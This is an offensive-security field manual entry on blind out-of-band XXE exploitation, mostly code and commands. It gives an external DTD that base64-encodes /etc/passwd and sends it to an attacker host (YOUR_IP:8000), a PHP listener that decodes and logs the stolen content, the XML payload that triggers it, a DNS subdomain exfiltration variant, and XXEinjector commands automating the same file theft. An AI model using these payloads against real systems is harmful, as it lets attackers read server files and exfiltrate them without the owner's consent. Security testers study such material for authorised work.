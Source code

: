 # Field Manual Entry — 9.3 Blind (OOB) Data Exfiltration (XXE)

Goal: Exfiltrate file content when:

- No injected entity appears in the response
- No error is displayed 
- You are fully blind    
#### 1. OOB Exfil via Base64-Encoded HTTP GET

When reflection and error-based methods fail, make the target server send the file content to your machine using an HTTP request with the content embedded in the URL.

Step 1: Create external DTD file (xxe.dtd)

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://YOUR_IP:8000/?content=%file;'>">
```

- `%file;` reads and base64-encodes the target file
- `%oob;` embeds `%file;` inside a request to your server

Step 2: Start your server with a logging PHP script

Create `index.php`:

```php
<?php
if (isset($_GET['content'])) {
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Run the PHP server:

```bash
php -S 0.0.0.0:8000
```

Step 3: Send XML payload to vulnerable app

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % remote SYSTEM "http://YOUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

- The server makes a GET request to your machine with base64 file contents as a query param.    
- `index.php` decodes it and logs it to your terminal.
#### 2. DNS-based Exfiltration (Optional)

If HTTP egress is blocked, encode the data in the subdomain of a DNS request.

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ENCODED.yourdomain.com'>">
```

Capture DNS requests using:

```bash
tcpdump -i tun0 port 53
```

Decode the subdomain value manually.
#### 3. Tooling: Automate with XXEinjector

Clone the tool:

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Create the request file `/tmp/xxe.req`:

```http
POST /submit HTTP/1.1
Host: victim
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Run:

```bash
ruby XXEinjector.rb --host=YOUR_IP --httpport=8000 \
--file=/tmp/xxe.req --path=/etc/passwd \
--oob=http --phpfilter
```

Exfiltrated data will be saved under `Logs/<host>/<file>.log`.

Use automation only after confirming that blind manual method works, or when testing at scale.